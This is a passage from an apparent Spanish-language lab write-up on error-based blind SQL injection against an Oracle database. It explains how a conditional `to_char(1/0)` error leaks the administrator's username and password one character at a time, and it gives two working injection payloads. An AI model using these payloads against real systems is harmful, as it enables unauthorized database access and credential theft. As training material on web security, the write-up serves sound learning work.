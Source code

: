 La expresión `substr(username,1,1)` extrae el primer carácter del nombre de usuario. En este caso, el primer carácter de `administrator` es `a`. La consulta usa `case when substr(username,1,1)='a'`, como el primer carácter de (`administrator`) efectivamente es (`a`), esta condición será verdadera. Debido a que la condición es verdadera, se ejecuta `to_char(1/0)`, lo que provocará un error.

```sql
'||(select case when substr(username,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

![](/assets/img/ps-writeup-sqli/ps-lab12_19.png)

Es igual para la contraseña.

```sql
'||(select case when substr(password,1,1)='a' then to_char(1/0) else '' end from users where username='administrator')||'
```

